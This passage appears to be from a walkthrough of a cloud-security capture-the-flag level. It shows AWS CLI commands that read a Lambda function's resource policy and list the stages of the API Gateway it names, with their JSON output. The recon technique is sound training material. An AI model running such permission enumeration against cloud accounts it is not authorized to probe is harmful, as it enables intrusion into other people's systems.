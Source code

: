 There is a function named ```Level6```. Let’s get the policy for this function:

```bash
~ aws --region us-west-2 --profile level-6 lambda get-policy --function-name Level6

{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"904610a93f593b76ad66ed6ed82c0a8b\",\"Effect\":\"Allow\",\"Principal\":{\"Service\":\"apigateway.amazonaws.com\"},\"Action\":\"lambda:InvokeFunction\",\"Resource\":\"arn:aws:lambda:us-west-2:975426262029:function:Level6\",\"Condition\":{\"ArnLike\":{\"AWS:SourceArn\":\"arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\"}}}]}",
    "RevisionId": "22f08307-9080-4403-bf4d-481ddc8dcb89"
}
```

If beautified a little, it looks like this:

```js
{
    "Policy": {
        "Version": "2012-10-17",
        "Id": "default",
        "Statement": [{
            "Sid": "904610a93f593b76ad66ed6ed82c0a8b",
            "Effect": "Allow",
            "Principal": {
                "Service": "apigateway.amazonaws.com"
            },
            "Action": "lambda:InvokeFunction",
            "Resource": "arn:aws:lambda:us-west-2:975426262029:function:Level6",
            "Condition": {
                "ArnLike": {
                    "AWS:SourceArn": "arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6"
                }
            }
        }]
    },
    "RevisionId": "22f08307-9080-4403-bf4d-481ddc8dcb89"
}
```


This means we can execute ```arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6```. **s33ppypa75** is a rest-api-id, which we can then use with that other attached policy:

```bash
~ aws --profile level-6 --region us-west-2 apigateway get-stages --rest-api-id "s33ppypa75"

{
    "item": [
        {
            "tracingEnabled": false,
            "stageName": "Prod",
            "cacheClusterEnabled": false,
            "cacheClusterStatus": "NOT_AVAILABLE",
            "deploymentId": "8gppiv",
            "lastUpdatedDate": 1488155168,
            "createdDate": 1488155168,
            "methodSettings": {}
        }
    ]
}
```
